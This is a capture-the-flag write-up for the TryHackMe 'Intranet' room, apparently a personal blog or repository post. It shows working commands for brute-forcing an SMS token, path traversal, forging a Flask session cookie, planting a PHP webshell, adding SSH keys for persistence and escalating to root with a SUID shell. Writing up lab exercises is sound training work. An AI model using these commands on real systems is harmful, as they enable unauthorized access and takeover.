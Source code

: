 # Intranet

https://tryhackme.com/room/securesolacodersintra

*Welcome to the intranet!*, a room by [toxicat0r](https://tryhackme.com/p/toxicat0r), rated Medium

> The web application development company SecureSolaCoders has created their own intranet page. The developers are still very young and inexperienced, but they ensured their boss (Magnus) that the web application was secured appropriately. The developers said, "Don't worry, Magnus. We have learnt from our previous mistakes. It won't happen again". However, Magnus was not convinced, as they had introduced many strange vulnerabilities in their customers' applications earlier.
> 
> Magnus hired you as a third-party to conduct a penetration test of their web application. Can you successfully exploit the app and achieve root access?

A fun room, with *seven* flags, each representing a different stage of the compromise. Took me a day to get the first flag, a little while to get the third, but otherwise it was smooth sailing. I would say its a room with 'simple solutions that are hard to find'.

1. Initial recon revealed ports 7, 21, 22, 23, 80 and 8080. 7 was just an echo service, 21 and 23 required credentials that I never obtained; at a guess, these were all rabbit holes. On port 80 was a simple 'under contruction' page, with no discernable functionality, while 8080 redirected to a /login page. The login page indicated that the username was in the format 'user@securesolacoders.no', and in the source of the page the usernames 'devops' and 'anders' were revealed in a comment.

2. The hint for the first flag was that it was that a custom wordlist might be required; I spent a day or so with various bruteforcing techniques (eventually discovering a third user, 'admin', as the login form allows username enumeration) with no success. I can't really give too much of a hint without giving the  password away here, but will just say I guessed it, and it was pretty basic. Try to think of dumb corporate passwords.

3. On the next screen was the **first flag**, and a form asking for an SMS token, in the format 0000 to 9999, sent to some imaginary mobile number. This form did not perform any rate limiting, and the SMS token is set once per login. I brute forced it with Burp Suite's Intruder, as I own the professional edition, but it could have also been done with something like FFuf from the attack box, likely faster. See below for some non-burp examples:

    - creating a wordlist: `seq -f "%04g" 0 9999 > nums.txt`
    - with ffuf: `ffuf -u http://[IP_ADDRESS]:8080/sms -w nums.txt -H 'Content-Type: application/x-www-form-urlencoded' -b $'session=[AUTH_COOKIE]' -X POST -d "sms=FUZZ" -ac`
    - with hydra: `hydra -l na -P nums.txt -s 8080 [IP_ADDRESS] http-post-form "/sms:sms=^PASS^:H=Cookie\: session=[AUTH_COOKIE]:S=Redirecting"`
    - pure bash using gnu-parallel: `cat nums.txt | parallel -I CODE --tagstring CODE curl -s -b $'session=[AUTH_COOKIE]' --data-binary sms=CODE http://[IP_ADDRESS]:8080/sms | grep Redirecting`

5. Past that is the **second flag** and the home page of the Intranet. It had four apparent pages: Home, Internal, External and Admin, with the last blocking on unauthorised. Brute forcing the sub directories found a few more rabbit holes, like temporary and application. Of the three accessible pages, the only significant functionality was a form on Internal, that made a POST with the payload 'news=latest'.

6. This took a while for me to realise this was local file inclusion, of a sorts, which can be confirmed with changing latest to `../../../../etc/passwd`. The hint suggested I should be searching for the source code of the site, which by this point (based on response headers) I had guessed was a python-based flask application. Accessing `../../../proc/self/environ` revealed that the PWD environment variable was `/home/devops`, suggesting that the source code was in there somewhere. I experimented with several candidates until I guessed the name for the site's source file and loaded it up.

7. The **third flag** was in this source file. The source code revealed the site's structure, including showing some of the rabbit holes. Notably it also showed that /admin could only be accessed if the username was 'admin', and that this would provide a means to get code execution:

    ```python
    @app.route("/admin", methods=["GET", "POST"])
    def admin():
          if not session.get("logged_in"):
                  return redirect("/login")
          else:
                  if session.get("username") == "admin":
  
                          if request.method == "POST":
                                  os.system(request.form["debug"])
                                  return render_template("admin.html")
  
                          current_ip = request.remote_addr
                          current_time = strftime("%Y-%m-%d %H:%M:%S", gmtime())
  
                          return render_template("admin.html", current_ip=current_ip, current_time=current_time)
                  else:
                          return abort(403)
    ```
    
    However, it was impossible to login as admin:
    
    ```python
    if username.lower() == "admin@securesolacoders.no":
        error = "Invalid password"
        return render_template("login.html", error=error)
    ```
    
    But, the session key used for the flask cookie was potentially very weak:
  
    ```python
    key = "secret_key_"   str(random.randrange(100000,999999))
    app.secret_key = str(key).encode()
    ```
    
    And a quick look at the key (base64 decode it) revealed its format was:
  
    ```
    {'logged_in': True, 'username': 'anders'}
    ```
  
    So if I could brute force the key to resign a cookie changing my username, I could proceed.
  
8. I did this with a tool named [flask-unsign](https://pypi.org/project/flask-unsign/) over several steps:

    1. First I generated a wordlist with bash: `for i in {100000..999999}; do echo secret_key_$i >> wordlist.txt; done`
    2. Next I bruted out the secret key with `flask-unsign -c [session_key] -u --wordlist=wordlist.txt`
    3. Finally I created a new key with `flask-unsign -c "{'logged_in': True, 'username': 'admin'}" -s -S [discovered_secret]`
  
    This allowed me access to the admin section.
  
9. The **fourth and final web flag** was on the admin page. As shown in the code above, any payload passed as 'debug=[command]' in a POST request would be executed, but not reflected. I used a simple openbsd netcat payload to get a rev shell.

10. The **user.txt** flag was in devops home directory. To get a stronger shell I added my SSH public key to a new authorized_keys file under .ssh for devops, then ssh'd in directly.

11. The next target was **user2.txt**, presumably by laterally moving from the devops user to anders. This proved to be fairly simple: a look at the output of `ps aux` showed that the port 80 website, the 'under contruction' page initially discovered, was being run via Apache out of `/var/www/html`, and Apache was running under ander's user account rather than something generic like www-data. This meant any code execution in the port 80 website would be as anders. Under `/var/www/html` there was just an `index.html` page, but devops had the ability to write files to that directly. Therefore, I created a webshell in PHP and dropped it in there (`echo '<?php system($_GET[1]) ?>' > s.php`), giving me code execution as anders. Anders already had a 'authorized_keys' file, so I added my public key again and logged in directly over SSH as anders.

12. The **user2.txt** file was in ander's home directory, leaving just root.txt to go. A quick enumeration revealed that anders could restart the apache service as root (seen by running sudo -l). The way apache works is that it is started by root, and then switches to the relevant user its to run as. I figured since Anders was the relevant user, I might be able to write something that root would execute. Enumerating `/etc/apache2` I found a writable file that appeared to be a bash script, and added `cp /bin/sh /sh && chmod u+s /sh` to it. After restarting apache I had a suid-bit set, root owned sh binary in root.

13. `/sh -p` got me an effective root shell and the **final flag**.

Fun room, overall, quite a few techniques on display. 
